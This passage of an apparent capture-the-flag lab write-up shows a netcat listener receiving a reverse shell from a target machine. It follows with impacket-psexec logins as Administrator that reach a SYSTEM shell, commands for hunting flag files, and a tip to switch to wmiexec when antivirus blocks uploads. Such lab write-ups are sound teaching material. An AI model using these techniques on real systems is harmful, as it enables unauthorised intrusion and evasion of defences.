 And back to our netcat and we see the shell:

    └──╼ $sudo nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.185] from (UNKNOWN) [10.10.10.27] 49718

We get the shell on behalf of sql_svc and we can start to navigate the folders and get the files of the host by using the "type" command.

At this point, we can also execute some commands to retrieve more information about the system and the installed patches. Just look [here](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#system-info).

Phase 3: Privilege Escalation
--
Since now we have the Administrator password, we must search the .txt file containing the flag. To access with Administrator privilege, we can use PsExec. PsExec allows for remote command execution (and receipt of resulting output) over a named pipe with the Server Message Block (SMB) protocol, which runs on TCP port 445:

    impacket-psexec administrator@10.10.10.27
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

    Password:
    [*] Requesting shares on 10.10.10.27.....
    [*] Found writable share ADMIN$
    [*] Uploading file cNpZoEKc.exe
    [*] Opening SVCManager on 10.10.10.27.....
    [*] Creating service cqIX on 10.10.10.27.....
    [*] Starting service cqIX.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system

In case we don't know the specific name of the text file containing the flag, we can run this command:
* Linux Bash:	**`find / -name *.txt 2>/dev/null`**
* Windows PowerShell:	**`gci c:\ -Force -r -fi *.txt 2>NULL`**

gci searches also for hidden files.

If impacket-psexec returns an error like:
```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.129.51.235.....
[*] Found writable share ADMIN$
[*] Uploading file SqrWfHRA.exe
[*] Opening SVCManager on 10.129.51.235.....
[*] Creating service bLlf on 10.129.51.235.....
[*] Starting service bLlf.....
[*] Opening SVCManager on 10.129.51.235.....
[-] Error performing the uninstallation, cleaning up
```
it means that probably the Windows antivirus is blocking the file uploading. In this case, you can use `impacket-wmiexec` that does not need to upload anything on the target system.
